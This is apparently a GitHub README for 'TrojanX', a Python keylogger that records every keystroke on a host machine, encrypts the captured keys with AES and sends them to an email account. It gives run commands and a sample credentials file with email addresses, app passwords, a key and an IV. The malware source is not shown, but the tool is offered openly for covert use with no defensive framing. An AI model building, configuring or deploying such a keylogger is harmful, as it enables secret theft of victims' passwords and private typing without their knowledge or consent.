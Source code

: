 <h1>TrojanX, a simple keylogger written in python</h1>

TrojanX is a simple keylogger software written in python, when executed on a host machine it will listen to every key strokes of the user. Once it gathered enough keys, it will encrypt them using AES and sent to an email server. The encrypted data can be read by the receiver email address decrypting it using the same keys when it was encrypted on the host machine.

<h3>How to use?</h3>

You need to create an authentication file, you need to store the following:

<li>The email server to be use</li>
<li>Email address of the receiver</li>
<li>Email address of the sender</li>
<li>App password of the receiver</li>
<li>App password of the sender</li>
<li>Random 16 bytes for key</li>
<li>Randome 16 bytes for iv</li>

Run the keyboard logger

```
$ python keyboard_logger.py
```

If you think the user typed atleast 20 or > characters, read the messages

```
$ python read_email.py
```

<h3>Authentications file example</h3>

Write this in authentications.py

```python
email_server = "imap.gmail.com"
receiver_email = "receiver@gmail.com"
sender_email = "sender@gmail.com"

# This is a 16 character app password

app_password_receiver = "dkwiospalifhjwen"
app_password_sender = "djwidkrtoiqplskd"

# This is a random 16 bytes to use as a key and initialization vector for encryption

key = b'\x88\x90G\xfc\xb7l\x85\xed\xf9\xa1}\x9fF\xdd`B'
iv = b'S\xa1.0\xd6\xed9=-\xca\xbe\xddVQ\x9e\x8d'

```
